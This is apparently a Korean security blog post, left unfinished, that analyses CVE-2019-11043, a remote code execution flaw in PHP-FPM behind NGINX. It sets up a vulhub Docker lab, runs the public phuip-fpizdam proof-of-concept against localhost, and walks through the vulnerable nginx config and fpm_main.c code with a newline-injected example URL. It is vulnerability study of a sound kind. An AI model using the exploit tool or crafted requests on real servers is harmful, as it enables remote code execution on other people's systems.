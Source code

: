 ```yaml
---
layout: post
title: '[위협] PHP-FPM + NGINX RCE(CVE-2019-11043)'
subtitle: 'threat, php, fpm, nginx'
categories: threat
tags: application
comments: true
---
```


> 이 글은 어플리케이션 취약점을 분석한 글입니다. 출처: https://paper.seebug.org/1064/

# PHP-FPM + NGINX RCE

- PHP 7+
- CentOS 8

<br>
<br>

PHP-FPM(FastCGI Process Manager)은 동적 페이지를 빠르게 처리하기 위해 NginX, Apache와 연동하여 사용하는 CGI 이다.

해당 취약점은 아래와 같이 잘못된 NginX configuration으로 PHP-FPM을 사용할 경우 발생한다.

![](https://chanbin.github.io/assets/img/php-fpm/1.png)<br>
<center>해당 취약점에 대한 bug fix 내용</center>
> 출처: https://github.com/php/php-src/commit/ab061f95ca966731b1c84cf5b7b20155c0a1c06a#diff-624bdd47ab6847d777e15327976a9227

## 직접 공격해 보도록 하자. 

취약성을 가진 환경을 만들기 위해, Exploit DB에서 제공하는 `vulhub` 깃에서 도커 이미지를 받아온다.

```bash
[test@localhost Desktop]$ git mkdir test
[test@localhost test]$ git init
[test@localhost test]$ git config core.sparseCheckout true
[test@localhost test]$ git remote add -f origin https://github.com/vulhub/vulhub
[test@localhost test]$ echo "php/CVE-2019-11043" >> .git/info/sparse-Checkout
[test@localhost test]$ git pull origin master
[test@localhost test]$ mv -v CVE-2019-11043/ /home/유저아이디/Desktop/
[test@localhost test]$ rm -rf test
[test@localhost CVE-2019-11043]$ sudo docker-compose up -d
```

![](https://chanbin.github.io/assets/img/php-fpm/2.png)<br>
<center>취약한 환경 구축</center>

<br>
<br>

Github에서 PoC 코드를 다운받아 공격 명령을 실행해본다.<br>해당 코드는 `golang`으로 작성되었다.

```bash
[test@localhost Desktop]$ sudo vi /etc/resolv.conf
nameserver 8.8.8.8 추가
[test@localhost Desktop]$ wget https://dl.google.com/go/go1.13.5.linux-amd64.tar.gz
[test@localhost Desktop]$ tar -xzf go1.13.5.linux-amd64.tar.gz
[test@localhost Desktop]$ sudo mv go /usr/local
[test@localhost Desktop]$ mkdir test
[test@localhost Desktop]$ export GOROOT=/usr/local/go
[test@localhost Desktop]$ export GOPATH=$HOME/Desktop/test
[test@localhost Desktop]$ export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
# 환경변수를 유지하기 위해서는 ~/.bash_profile 파일에 입력해야 한다.
[test@localhost test]$ go get -v github.com/neex/phuip-fpizdam
[test@localhost test]$ go install github.com/neex/phuip-fpizdam
[test@localhost Desktop]$ phuip-fpizdam http://127.0.0.1:8080/index.php
[test@localhost test]$ 
```

![](https://chanbin.github.io/assets/img/php-fpm/3.png)<br>
<center>취약점을 통해 파일 작성 후 원격 코드 실행 화면</center>

<br>
<br>

## 이제 분석해 보도록 하자. 

취약점 패치 내역을 다시 보면 `path_info` 변수의 조건에 문자열 길이 필터를 추가하여, false 값으로 유도하지 못하게 하고있다.

![](https://chanbin.github.io/assets/img/php-fpm/1.png)<br>
<center>해당 취약점에 대한 bug fix 내용</center>
> 출처: https://github.com/php/php-src/commit/ab061f95ca966731b1c84cf5b7b20155c0a1c06a#diff-624bdd47ab6847d777e15327976a9227

취약점 제보자의 문서를 찾아보면 `fastcgi_split_path_info` 지시문의 정규표현식은 개행 문자(\n,%0A)를 사용하여 해제할 수 있다. 정규표현식이 제대로 작동하지 않으므로 `PATH_INFO($fastcgi_path_info)`는 취약점의 트리거가 될 수 있다라고 나온다.

> The regexp in `fastcgi_split_path_info` directive can be broken using the newline character (in encoded form, %0a). Broken regexp leads to empty PATH_INFO, which triggers the bug.

```xml
# NGINX configuration 파일

location ~ [^/]\.php(/|$){
	fastcgi_split_path_info ^(.+?\.php)(/.*)$;
	include fastcgi_params;

	fastcgi_param PATH_INFO 	$fastcgi_path_info;
	fastcgi_index index.php;
	fastcgi_param REDIRECT_STATUS 	200;
	fastcgi_param SCRIPT_FILENAME /var/www/html$fastcgi_script_name;
	fastcgi_param DOCUMENT_ROOT /var/www/html;
	fastcgi_pass php:9000;
}
```
`fastcgi_split_path_info`의 정규표현식을 보면 첫 글자가 dot(.)이다. dot은 개행 문자(\n)를 제외한 임의의 한 문자를 의미하므로, 개행 문자가 들어온다면 변환에 실패한다.

수정되기전 소스코드를 보면, `path_info = env_path_info ? env_path_info + pilen - slen : NULL;`에서 `path_info`값이 NULL로 설정될 수 있다는 뜻이다.

소스코드를 자세히 보면,
```c
# php-src/sapi/fpm/fpm/fpm_main.c 파일
989		char *env_path_info = FCGI_GETENV(request, "PATH_INFO");
		...
1108	char *pt = estrndup(script_path_translated, script_path_translated_len);
1109	int len = script_path_translated_len;
		...
1131	int ptlen = strlen(pt);
1132	int slen = len - ptlen;
1133	int pilen = env_path_info ? strlen(env_path_info) : 0;
1134	int tflag = 0;
1135	char *path_info;
1136	if (apache_was_here) {
1137		/* recall that PATH_INFO won't exist */
1138		path_info = script_path_translated + ptlen;
1139		tflag = (slen != 0 && (!orig_path_info || strcmp(orig_path_info, path_info) != 0));
1140	} else {
1141		path_info = env_path_info ? env_path_info + pilen - slen : NULL;
1142		tflag = path_info && (orig_path_info != path_info);
1143	}
		...
```

1. `env_path_info` 선언에서, FastCGI 모듈의 환경변수를 가져오는 FCGI_GETENV함수를 사용한다. 이는 클라이언트의 요청값에서 `PATH_INFO`의 문자열 주소값을 가져온다. 
2. 클라이언트의 잘못된 요청으로 `path_info`가 NULL이 되면 `1133번째 줄`의 코드대로, `pilen = 0`이 된다. 참고로, C언어에서 `변수선언 = 조건? 참 : 거짓;`라는 문법이 존재한다. 조건이 참일 시 콜론(:)앞의 값으로 선언이, 거짓일 시 콜론 뒤의 값으로 선언이 이루어 진다.
3. `1131~1132번째 줄`에서 `slen`은 클라이언트가 요청한 URL이다.
4. `pt`는 `script_path_translated`값을 `script_path_translated_len`만큼 복사한 문자열의 주소를 가지고 있다.<br>
* `script_path_translated_len`은 클라이언트가 요청한 URL(`script_path_translated_len`)을 서버상의 PHP파일 경로(`SCRIPT_FILENAME`)로 저장한 문자열의 길이이다.
* 변환된 `script_path_translated`은 `SCRIPT_FILENAME`에서 마지막 `\`값을 기준(URL의 파라미터)으로 자른, 앞부분 `순수 URL`의 주소 이다.
* 쉽게 말하자면, `pt`는 request에서 파라미터를 뗀 `SCRIPT_FILENAME` 값의 문자열 주소이다


요청 URL이 http://127.0.0.1/index.php/123%0Atest.php 이다면, 아래와 같다.
```c
# php-src/sapi/fpm/fpm/fpm_main.c 파일
		...
1108	char *pt = "/var/www/html/index.php";
		...
1131	int ptlen = strlen("/var/www/html/index.php");
1132	int slen = strlen("/var/www/html/index.php/123\ntest.php")
				 - strlen("/var/www/html/index.php");
1133	int pilen = 0; // path_info에서 %0A로 인한 0값 설정
1134	int tflag = 0;
		...
1140	else {
1141		path_info = env_path_info ? env_path_info + pilen - slen : NULL;
			//path_info = "123" + 0 - "/123\ntest.php" or NULL
1142		tflag = path_info && (orig_path_info != path_info);
1143	}
		...
```

클라이언트의 요청을 수정할 수 있다면, `path_info` 값을 NULL이 아닌 특정 주소값으로 가져갈 수 있다.

```c
# php-src/sapi/fpm/fpm/fpm_main.c 파일
		...
1151	path_info[0] = 0;
1152	if (!orig_script_name ||
1153		strcmp(orig_script_name, env_path_info) != 0) {
1154		if (orig_script_name) {
1155		FCGI_PUTENV(request, "ORIG_SCRIPT_NAME", orig_script_name);
1156		}
1157		SG(request_info).request_uri = FCGI_PUTENV(request, "SCRIPT_NAME", env_path_info);
1158	} else {
1159		SG(request_info).request_uri = orig_script_name;
1160	}
		...
```

`1151번째 줄`의 `path_info[0] = 0;`을 통해, 어떤 특정주소 값도 0으로 바꿀 수 있으며, 특정 문자열과 구조체를 `0` 으로 바꿀 수 있다.
해당 문자열과 구조체는 `FCGI_PUTENV`함수 내부의 `fcgi_hash_set` 함수를 통해서 클라이언트 요청값에 있는 실행가능 한 코드로 대체되며, `FCGI_PUTENV`로 정의된 `fcgi_quick_putenv` 함수를 통해 서버에서 실행된다.
 

 

<br>
<br>

작성 중...